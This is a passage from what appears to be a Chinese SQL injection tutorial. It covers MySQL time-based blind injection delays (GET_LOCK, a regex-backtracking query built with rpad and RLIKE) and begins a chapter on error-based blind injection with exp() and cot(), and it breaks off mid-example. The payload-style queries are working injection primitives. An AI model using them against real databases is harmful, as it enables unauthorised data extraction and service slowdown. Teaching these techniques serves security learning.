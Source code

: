 
   在一个session中可以先锁定一个变量，然后通过另一个session再次执行get_lock函数，此时会产生5秒的延迟，其效果类似于sleep(5)，当然之后可以用re`RELEASE_LOCK()`函数释放

4. **正则表达式：**正则表达式在匹配较长的字符串但自由度比较高的字符串时，会造成较大的计算量，我们通过rpad或者repeat构造长字符串，加以计算量大的pattern，通过控制字符串长度我们可以控制延时。

   ```
   mysql> select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
   +-------------------------------------------------------------+
   | rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b') |
   +-------------------------------------------------------------+
   |                                                        NULL |
   +-------------------------------------------------------------+
   1 row in set, 1 warning (0.00 sec)
   ```

   

以上延时都考的挺少的。



# 第14章：报错盲注

## 报错盲注

### 一般形式

`if error , return ERR `

`ELSE return OK!`



### 举例引入问题：

```mysql
if((substr='a'), 执行某个函数执行过程中报错, 0)
```

这个函数执行过程中报错，可不是随便自己起一个乱七八糟的函数名就可以的，这样只会在select一执行就报错。

我们可以使用两种函数：exp()和cot()



### exp()函数：

作用：会返回自然对数，也就是e的多少次方。

```mysql
mysql>  select if(1=1,sleep(5),0);
+--------------------+
| if(1=1,sleep(5),0) |
+--------------------+
|                  0 |
+--------------------+
1 row in set (5.01 sec)

mysql> select exp(1);
+-------------------+
| exp(1)            |
+-------------------+
| 2.718281828459045 |
+-------------------+
1 row in set (0.00 sec)

mysql> select exp(5);
+-------------------+
| exp(5)            |
```
